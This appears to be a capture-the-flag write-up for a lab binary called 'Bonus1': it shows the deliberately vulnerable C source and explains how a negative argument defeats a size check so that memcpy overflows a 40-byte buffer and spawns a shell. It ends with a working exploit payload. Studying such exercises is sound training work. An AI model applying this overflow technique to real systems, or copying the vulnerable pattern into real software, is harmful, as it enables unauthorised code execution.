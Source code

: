 # Bonus1

## Code

```
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
#include <string.h>

int main(int argc, char **argv)
{
  char dest[40];
  int pass;

  pass = atoi(argv[1]);
  if ( pass > 9 )
    return 1;

  memcpy(dest, argv[2], pass * 4);
  if ( pass == 1464814662 )
    execl("/bin/sh", "sh", 0);

  return 0;
}

```

## Explanation


- Here we have a program that calls atoi() on argv[1], checks if the
    value is under 9 and then memcpy() argv[2] on a buffer of 40 bytes
    on a length of the value of the previous atoi times 4.

- So of course the problem is that the number given as argv[1] can't
    be higher than 9, and if we want to satisfy the win condition, even
    the highest value (9), once multiplied by 4, will fill 36 bytes
    of the buffer, not making it overflow...

- The good news is that memcpy() casts its third argument as unsigned,
    so all we need is to give as argv[1] a particular negative value,
    that once multiplied by four and casted as unsigned,
    will allow us to memcpy() more than 40 bytes to fill the
    int with the needed value.

- We used the little program in ./resources to find such a value,
    and then all we had to do is send this value as argv1, and
    as argv2, 40 random bytes followed by the hexadecimal value
    of the desired value.

## Exploit

Here's our final payload :
```
$    ./bonus1 -1073741812 `python -c 'print("A" * 40 + "\x46\x4c\x4f\x57")'`
```